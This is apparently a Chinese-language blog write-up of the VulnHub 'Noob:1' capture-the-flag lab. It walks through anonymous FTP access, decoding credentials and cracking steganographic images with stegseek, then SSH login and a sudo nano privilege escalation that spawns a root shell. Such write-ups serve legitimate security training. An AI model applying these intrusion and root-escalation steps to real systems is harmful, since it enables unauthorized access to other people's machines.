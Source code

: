 ```yaml
---
title: vulnhub 做题 Noob:1
tags: [penetration]
date: 2024-10-16 00:00:01
categories: [penetration]
excerpt: day5
---
```


## Vulnhub 做题 Noob:1

### 扫描

```zsh
21/tcp    open  ftp     vsftpd 3.0.3
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
55077/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
```

这个vsftpd 3.0.3只搜到了一个Dos攻击，没啥用，80端口的web是个登陆界面，扫了半天资源路径啥也没扫出来，ssh尝试枚举用户名也没弄明白

### 利用

学习一下如何ftp链接：

如果直接`ftp ip`，会让你直接输入用户名密码，但是并不是所有ftp都需要用户密码才能登陆，比如匿名ftp

只需要在输入用户名密码时，输入用户名为anonymous，密码空着，就能登录匿名ftp服务器

此外，`ftp ftp://ip`这样也可以直接登录上去

这道题的ftp就是一个匿名的，登陆上去之后有两个文件，get下来

```zsh
-rw-r--r--    1 0        0              21 Sep 21  2021 cred.txt
-rw-r--r--    1 0        0              86 Jun 11  2021 welcome
└─$ cat cred.txt 
Y2hhbXA6cGFzc3dvcmQ=                                                               
└─$ cat welcome 
                        🙏 WELCOME 🙏
                  We're glad to see you here.
                      💪 All The Best 👍
```

base64解密出来：champ:password，这个东西既不是ftp的账号，也不是ssh的账号，web倒是登上去了，web只有一个功能，下载下来一个bmp、一个jpg、一个叫做sudo的文本

```zsh
┌──(kali㉿kali)-[~/Downloads/downloads]
└─$ stegseek funny.jpg  /usr/share/wordlists/rockyou.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "hint.py".
[i] Extracting to "funny.jpg.out".
                                                                                                    
┌──(kali㉿kali)-[~/Downloads/downloads]
└─$ cat funny.jpg.out 
This is_not a python file but you are revolving around.
well, try_ to rotate some words too.
```

```zsh
┌──(kali㉿kali)-[~/Downloads/downloads]
└─$ stegseek funny.bmp  /usr/share/wordlists/dirbuster/directory-list-1.0.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "sudo"
[i] Original filename: "user.txt".
[i] Extracting to "funny.bmp.out".
                            
┌──(kali㉿kali)-[~/Downloads/downloads]
└─$ cat funny.bmp.out 
jgs:guvf bar vf n fvzcyr bar
```

bmp试了好几个字典，试出来发现是sudo，而下载下来的sudo里面说“文件名很有趣”，应该就是在暗示这个密码。然后结合jpg揭秘出来的说要rotate，不知道多少位

但是一搜在线解密，就有一个rotate13的解密网站，解密出来：`wtf:this one is a simple one`
(是因为13是26的一半，所以大家更倾向于13么😶‍🌫️)

那这个也只能是ssh的帐号了（第一次知道ssh的密码可以带空格）

登上去之后，非常搞的一件事是这个wtf可以直接sudo su😅😅😅

```zsh
root@wtf:~# cat root.txt 
RW5kb3JzZSBtZSBvbiBsaW5rZWRpbiA9PiBodHRwczovL3d3dy5saW5rZWRpbi5jb20vaW4vZGVlcGFrLWFoZWVyCg==

Follow me on Twitter https://www.twitter.com/Deepakhr9

TryHackMe --> https://www.tryhackme.com/p/Malwre99
Github --> https://www.github.com/Deepak-Aheer
(the flag is my LinkedIn username)


        THANK YOU for PLAYING THIS CTF

        But REMEMBER we're still N00bs ;)
```


但是还是按照出题者的想法继续往下做一做（

在wtf用户下，/home/roooot里面有一个flag.txt，但是是个假的 （别问咋找到的，问就是看了题解😶‍🌫️）

```zsh
wtf@wtf:/home/rooot$ cat flag.txt 
A Rabbit Hole?
Not sure!

Well, look for the thing you want.
It's just 2 steps ahead :)
```

然后在Downloads下又找到了一个`flag-1.txt`，`VGhlIGZsYWcgaXMgdGhlIGVuY29kZWQgc3RyaW5nIGl0c2VsZg`，解密`The flag is the encoded string itself`，意思是这个加密过后的就是真的flag

然后Documents下还有一个东西（别问，问就是看了题解😶‍🌫️）

```shell
REMOTE=1.2.3.4
SOURCE=/home/rooot
TARGET=/usr/local/backup
LOG=/home/rooot/bck.log 
DATE=`date +%y\.%m\.%d\.`
USER=n00b
#aw3s0m3p@$$w0rd

ssh $USER@$REMOTE mkdir $TARGET/$DATE

if [ -d "$SOURCE" ]; then
    for i in `ls $SOURCE | grep 'data'`;do
             echo "Begining copy of" $i  >> $LOG
             scp  $SOURCE/$i $USER@$REMOTE:$TARGET/$DATE
             echo $i "completed" >> $LOG

                if [ -n `ssh $USER@$REMOTE ls $TARGET/$DATE/$i 2>/dev/null` ];then
                    rm $SOURCE/$i
                    echo $i "removed" >> $LOG
                    echo "####################" >> $LOG
                                else
                                        echo "Copy not complete" >> $LOG
                                        exit 0
                fi 
    done    
else
    echo "Directory is not present" >> $LOG
    exit 0
fi
```

也不知道这玩意是干啥的，上来先一个ssh链接，但是ip瞎写的，就算改成靶机ip，也因为没有那个backup路径执行失败，不管了，反正能看出来给了n00b的密码

登陆上去，这回root不了了😅，sudo -l发现 /bin/nano 是可以root执行的

搜了一下nano的提权漏洞

首先执行sudo nano，然后ctrl r，ctrl x，进入一个输入命令执行的界面

然后输入`reset; sh 1>&0 2>&0` 回车，就拿到了一个root的shell
